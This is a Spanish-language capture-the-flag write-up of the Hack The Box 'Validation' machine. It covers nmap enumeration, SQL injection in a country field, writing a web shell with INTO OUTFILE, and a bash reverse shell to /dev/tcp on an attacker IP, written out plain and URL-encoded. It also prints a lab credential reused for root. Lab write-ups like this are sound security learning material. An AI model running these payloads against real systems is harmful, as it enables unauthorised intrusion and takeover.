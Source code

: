 ```yaml
---
title: "Write Up - Validation"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2022/validation.png"
categories:
  - WriteUp
---
```



OS | LINUX
Desarrollado por | ipsec
Dificultad | Fácil
Liberación | 13 Septiembre 2021
Puntos | 20

## Enumeración

Al usar nmap utilizando nmap -sCV -A 10.10.11.116 solo encontramos que está abierto el 80 (web),22 (SSH),8080,4566
```
# Nmap 7.92 scan initiated Wed Aug  3 11:19:23 2022 as: nmap -p22,80,4566,8080 -sCV -O -oN nmap/NMAP validation.htb
Nmap scan report for validation.htb (10.10.11.116)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug  3 11:19:45 2022 -- 1 IP address (1 host up) scanned in 22.46 seconds
```

Empezamos a enumerar directorios e interactuamos con la web, usando nmap –script=http-enum, y solo encuentra account.php. No se encuentra nada más y solo podemos interactuar con la web.

![Validation 1](/assets/images/post/2022/validation1.png)

Al registrarnos en la web nos damos cuenta de que envía un usuario y un país, el cual luego nos muestra nuestro usuario para el país que se eligió. Entre más usuarios registramos a la web más se muestra en la web como usuario, es por ello por lo que podemos pensar que la aplicación puede hacer un INSERT a una base de datos y luego genera un SELECT con el WHERE al país seleccionado. Probamos un SQL injection tanto en el usuario y en el país, y nos percatamos que en la variable country es vulnerable.

Probamos enumerar información importante en la Base de Datos (nombre de base de datos, tablas, usuarios). Descubrimos que la Base de datos que se utiliza es Maria DB 10.5.11

## 1° Shell

Mientras se prueba el SQL injection descubrimos que la web está en /var/www/html, además podemos crear archivos con el SELECT “<CONTENIDO DEL ARCHIVO>” INTO OUTFILE “<RUTA ESPECIFICA DEL ARCHIVO>» y esto nos genera un archivo en la ruta especificada.

Con este pagina creada podemos crear una Shell reversa con el siguiente bash -c ‘bash -i>& /dev/tcp/10.10.14.12/4444 0>&1’ al tratar de ejecutar no nos carga la Shell reversa, es por ello que codificamos el comando en URL ENCODE %62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%31%32%2f%34%34%34%34%20%30%3e%26%31%27, y nos carga la Shell (esto pasa por que el navegador debe codificar el dato antes de enviarlo).

## 2° SHELL (root)

Revisando con el www-data vemos que no hay usuario para el sistema, pero en /var/www/html hay un archivo config.php con usuario y contraseña (uhc:uhc-9qual-global-pw) para conectarse localmente a la máquina, probamos esta clave con el usuario root.

![Racso](https://www.hackthebox.com/badge/image/159593)